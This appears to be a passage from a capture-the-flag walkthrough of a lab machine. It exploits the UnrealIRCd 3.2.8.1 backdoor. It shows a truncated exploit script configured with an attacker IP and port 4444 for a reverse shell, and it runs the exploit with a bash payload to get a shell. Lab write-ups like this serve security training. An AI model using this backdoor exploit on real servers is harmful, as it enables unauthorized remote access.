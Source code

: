 # 10 - IRC


# Searchsploit

![](vx_images/269307158973.png)

I am neither going to use metasploit nor remote download/execute. The latter is a rather old script and links in the script are not working anymore. 


# [UnrealIRCd 3.2.8.1 Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

```py
#!/usr/bin/python3
import argparse
import socket
import base64
...
local_ip = '10.10.14.9'  # CHANGE THIS
local_port = '4444'  # CHANGE THIS 
...
```

# Run the exploit
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/irked/exploit]
└──╼ $ ./exploit.py  -payload bash irked.htb 6697
Exploit sent successfully!
```

# Shell

![](vx_images/3796197716496.png)